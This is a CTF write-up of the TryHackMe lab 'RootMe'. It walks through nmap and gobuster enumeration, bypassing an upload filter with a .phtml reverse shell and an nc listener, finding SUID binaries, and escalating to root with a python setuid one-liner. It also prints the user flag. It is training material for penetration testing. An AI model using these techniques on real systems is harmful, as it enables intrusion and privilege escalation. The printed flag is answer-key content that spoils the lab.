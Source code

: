 # RootMe - TryHackMe Writeup  

**Author:** Koushiq Murad

## Overview
RootMe is a beginner-friendly CTF on TryHackMe that teaches the fundamentals of:
- Service enumeration  
- Directory brute-forcing  
- File upload exploitation  
- Reverse shells  
- Privilege escalation via SUID binaries  

---

## Enumeration

### Nmap Scan
```bash
nmap -sC -sV 10.10.107.48
```
- `-sC` → Run default scripts  
- `-sV` → Detect service versions  

**Results:**
- Port 22 → SSH (OpenSSH 8.2p1 Ubuntu)  
- Port 80 → Apache/2.4.41  

So the box is running a website on port 80.  

---

### Directory Enumeration
```bash
gobuster dir -u http://10.10.107.48 -w /usr/share/wordlists/dirb/common.txt
```
- `-u` → Target URL  
- `-w` → Wordlist to use  

**Interesting findings:**
- `/panel/` → Login/upload page  
- `/uploads/` → Publicly accessible directory  

---

## Initial Foothold

### File Upload Vulnerability
The `/panel/` page allowed file uploads.  
Uploading `.php` was blocked, but `.phtml` was accepted.  

I generated a PHP reverse shell (PentestMonkey) and uploaded it as `shell.phtml`.  

Then I set up a listener:  
```bash
nc -lvnp 1234
```

Navigated to:  
```
http://10.10.107.48/uploads/shell.phtml
```

💥 Got a reverse shell as **www-data**.  

---

## User Flag

First, I searched for `user.txt`:  
```bash
find / -type f -name "user.txt" 2>/dev/null
```

Found at: `/var/www/user.txt`  

```bash
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

---

## Privilege Escalation

### Finding SUID Binaries
```bash
find / -type f -perm -4000 2>/dev/null
```
- `-perm -4000` → Finds files with SUID bit set (execute as owner)  

Among standard binaries, one stood out:  
```
/usr/bin/python
```

---

### Exploitation
GTFOBins confirms we can exploit this:  
```bash
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

💥 Gained root shell.  

---

## Root Flag
```bash
cat /root/root.txt
```

---

## Lessons Learned
1. Always run **nmap** for service enumeration.  
2. Use **gobuster/dirb** to find hidden web directories.  
3. Test file upload forms for extensions like `.phtml`, `.phar`, `.php5`.  
4. Use **reverse shells** + upgrade them with `python -c 'pty.spawn("/bin/bash")'`.  
5. Enumerate SUID binaries — often the easiest route to privilege escalation.  

---

## Flags
- **User flag:** `THM{y0u_g0t_a_sh3ll}`  
- **Root flag:** *(hidden to avoid spoilers)* ✅  

---

